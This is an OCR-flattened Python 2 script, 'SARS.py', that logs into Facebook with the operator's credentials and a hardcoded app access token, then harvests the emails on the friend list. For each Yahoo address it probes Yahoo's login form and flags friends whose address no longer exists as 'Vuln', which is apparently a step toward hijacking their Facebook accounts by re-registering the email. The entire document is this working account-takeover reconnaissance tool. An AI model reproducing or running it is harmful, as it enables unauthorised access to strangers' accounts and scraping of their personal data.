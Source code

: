 # SARS.py
import requests, json, os, re, sys, mechanize, urllib reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) os.system("clear") idt = raw_input("\033[39m[\033[31m*\033[39m] Email : ") passw = raw_input("\033[39m[\033[31m*\033[39m] Password: ") url = "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=" + (idt) + "&amp;locale=en_US&amp;password=" + (passw) + "&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6" data = urllib.urlopen(url) op = json.load(data) if 'access_token' in op: token = (op["access_token"]) print ("\033[39m[\033[31m+\033[39m] Login Berhasil") else: print ("\033[39m[\033[31m+\033[39m] \033[31mLogin Gagal!") sys.exit() get_friends = requests.get('https://graph.facebook.com/me/friends?access_token='+token) hasil = json.loads(get_friends.text) print ("\033[39m[\033[31m+\033[39m] Berhasil Mendapatkan ID Teman...") #cok = open('Mail_Yahoo.txt','w') def defense(): global o, h o = [] h = 0 print "\033[36m" + 55*"-" print "\033[36m| " + 11*" " + "\033[35mEmail" + 14*" " + "\033[36m|" + 9*" " + "\033[33mVuln" + 8*" " + "\033[36m|" print 55*"-" for i in hasil['data']: wrna = "\033[36m" wrne = "\033[39m" h +=1 o.append(h) x = requests.get("https://graph.facebook.com/"+i['id']+"?access_token="+token) z = json.loads(x.text) try: kunci = re.compile(r'@.') cari = kunci.search(z['email']).group() if 'yahoo.com' in cari: br.open("https://login.yahoo.com/config/login?.src=fpctx&amp;.intl=id&amp;.lang=id-ID&amp;.done=https://id.yahoo.com") br._factory.is_html = True br.select_form(nr=0) br["username"] = z['email'] j = br.submit().read() Zen = re.compile(r'"messages.ERROR_INVALID_USERNAME">.') try: cd = Zen.search(j).group() except: vuln = 6*" " + "\033[31mNot Vuln" #Email Len lean = 30 - (len(z['email'])) eml = lean * " " #Name Len lone = 24 - (len(vuln)) namel = lone * " " print "\033[36m| " + wrna + z['email'] + eml + "\033[36m| " + wrne + vuln + namel + " \033[36m|" continue if '"messages.ERROR_INVALID_USERNAME">' in cd: vuln = 8*" " + "\033[32mVuln" else: vuln = 5*" " + "\033[31mNot Vuln" #Email Len lean = 30 - (len(z['email'])) eml = lean * " " #Name Len #Author: Zen-Oh-Sama lone = 24 - (len(vuln)) namel = lone * " " print "\033[36m| " + wrna + z['email'] + eml + "\033[36m| " + wrne + vuln + namel + " \033[36m|" else: pass except KeyError: pass defense()
